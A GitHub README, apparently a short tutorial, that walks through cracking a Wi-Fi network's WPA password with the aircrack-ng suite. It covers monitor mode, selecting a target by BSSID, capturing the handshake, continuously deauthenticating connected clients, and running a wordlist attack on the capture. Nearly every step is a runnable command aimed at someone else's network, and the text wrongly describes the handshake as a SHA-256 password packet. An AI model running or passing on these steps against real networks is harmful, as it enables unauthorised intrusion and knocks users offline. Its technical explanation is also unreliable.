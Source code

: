 <h1 align="center">Welcome to WiFi-Hacking 👋</h1>
<p>
  <img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

> 
### 🏠 [Homepage](https://github.com/AnandKatariya/WiFi-Hacking)
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.
## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.
## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.
## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.
## Select the target

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac>
```
A wireless penetration test will examine your network using a methodology similar to the standard wired penetration test. However, they will focus on the wireless as the gateway to exploit your vulnerabilities. Thus this will select your target.
## Save handshake

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac> -w target_handshake
```
-w will save save you target handshake whenever it will capture. It will save in .cap name file. Now after this we want to disconnect someone who is connected to target's device. So we need to perform the aireplay attack so we will able to disconnect the any device which is connect to target's device  
<br>
## Open new terminal
<br>


## Disconnecting the device

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this any one of the device will be disconnect and will able to try auto reconnect to the target (when this process is been happeing the waay is when any device is disconnect it will try to auto reconnect it and when it will try the password will transfer in terms of packet and the packet will be
SHA-256 bit algorithm) when it it auto reconnect the packet will be capture and the 4-way handshake will be performed.
## Cracking the password

```sh
aircrack-ng -w wordlist.txt handshake.cap
```
This process will help you to crack the password of the file but all you need is the gigantic wordlist, which should contain lakhs of similar passwaord and Hence it will able to crack the password.
## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/WiFi-Hacking/issues).

## Show your support

Give a ⭐️ if this project helped you!
